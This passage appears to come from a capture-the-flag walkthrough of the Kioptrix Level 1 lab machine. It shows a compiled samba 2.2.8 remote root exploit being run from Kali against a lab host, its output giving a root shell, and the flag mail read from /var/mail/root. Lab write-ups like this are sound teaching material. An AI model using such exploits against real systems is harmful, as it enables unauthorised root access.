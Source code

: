     root@kali:~# ./a.out -b 0 -c 192.168.1.71 -C 40 192.168.1.104  
    samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)  
    --------------------------------------------------------------  
    + Bruteforce mode. (Linux)  
    + Host is running samba.  
    + Worked!  
    --------------------------------------------------------------  
    *** JE MOET JE MUIL HOUWE  
    Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown  
    uid=0(root) gid=0(root) groups=99(nobody)  
    

  
  
Oh, and here's our flag:  
  

    
    
    cat /var/mail/root  
    From root  Sat Sep 26 11:42:10 2009  
    Return-Path: <root@kioptix.level1>  
    Received: (from root@localhost)  
     by kioptix.level1 (8.11.6/8.11.6) id n8QFgAZ01831  
     for root@kioptix.level1; Sat, 26 Sep 2009 11:42:10 -0400  
    Date: Sat, 26 Sep 2009 11:42:10 -0400  
    From: root <root@kioptix.level1>  
    Message-Id: <200909261542.n8QFgAZ01831@kioptix.level1>  
    To: root@kioptix.level1  
    Subject: About Level 2  
    Status: O  
      
    If you are reading this, you got root. Congratulations.  
    Level 2 won't be as easy...  
      
    From root  Sat Nov 12 00:04:37 2016  
    Return-Path: <root@kioptrix.level1>  
    Received: (from root@localhost)  
     by kioptrix.level1 (8.11.6/8.11.6) id uAC54bQ01088  
     for root; Sat, 12 Nov 2016 00:04:37 -0500  
    Date: Sat, 12 Nov 2016 00:04:37 -0500  
    From: root <root@kioptrix.level1>  
    Message-Id: <201611120504.uAC54bQ01088@kioptrix.level1>  
    To: root@kioptrix.level1  
    Subject: LogWatch for kioptrix.level1  
      
      
      
     ################## LogWatch 2.1.1 Begin #####################   
      
      
     ---------------- Connections (secure-log) Begin -------------------   
      
    **Unmatched Entries**  
    Nov 11 23:59:32 kioptrix sshd[745]: Server listening on 0.0.0.0 port 22.  
      
      
     ----------------- Connections (secure-log) End --------------------   
      